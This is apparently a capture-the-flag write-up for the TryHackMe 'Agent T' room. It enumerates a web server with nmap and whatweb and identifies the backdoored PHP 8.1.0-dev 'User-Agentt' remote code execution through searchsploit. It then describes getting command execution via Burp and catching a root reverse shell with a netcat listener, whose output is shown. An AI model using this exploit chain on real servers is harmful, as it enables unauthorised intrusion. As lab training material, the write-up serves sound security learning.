




# [Agent T VM](https://tryhackme.com/r/room/agentt)

## Enumeration

We start enumarating the open port with **nmap**.

```shell
$sudo nmap -p- --open -n -Pn -sS --min-rate 2000 10.10.94.181

Not shown: 58823 closed tcp ports (reset), 6711 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
80/tcp open  http
```

Only the port 80 is open, so we will analize the web.



Allmost all the features do no work and we can only find the other urls such as:

* http://10.10.94.181/index.html
* http://10.10.94.181/404.html
* http://10.10.94.181/blank.html

The first url does not work and we notice that the page uses php behind sience the main page is http://10.10.94.181/index.php instead of http://10.10.94.181/index.html.

We use whatweb to optain more information from the web.

```shell
$ whatweb http://10.10.94.181/
http://10.10.94.181/ [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.10.94.181], JQuery, PHP[8.1.0-dev], Script, Title[Admin Dashboard], X-Powered-By[PHP/8.1.0-dev], X-UA-Compatible[IE=edge]
```



We obtain the thet *php version is  8.1.0-dev* and a header *X-Powered-By*  indicating the same. We will look an exploit for taht version.

```shell
$ searchsploit php 8.1.0-dev
-------------------------------------------------------------------------------------------
 Exploit Title                                                      |  Path-
-------------------------------------------------------------------------------------------
...
OPNsense < 19.1.1 - Cross-Site Scripting                            | php/webapps/46351.txt
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                 | php/webapps/49933.py
Plesk < 9.5.4 - Remote Command Execution                            | php/remote/25986.txt
...
-------------------------------------------------------------------------------------------
Shellcodes: No Results
```

```shell
$ searchsploit -p 49933
  Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
      URL: https://www.exploit-db.com/exploits/49933
     Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
    Codes: N/A
 Verified: True
File Type: Python script, ASCII text executable
Copied EDB-ID #49933's path to the clipboard
```

## Vulnerability Exploitation

We find a Remote Code Execution, and if we analyze the code in *https://www.exploit-db.com/exploits/49933* we see that it only adds a header *User-Agentt*.

We try with burpsuit and see that we manage to execute commands.



We generate the rever shell.



```shell
$sudo nc -lvnp 443
[sudo] password for martin: 
listening on [any] 443 ...
connect to [10.8.100.192] from (UNKNOWN) [10.10.94.181] 47662
sh: 0: can't access tty; job control turned off
# whoami
root
```

We are root, search the flag.
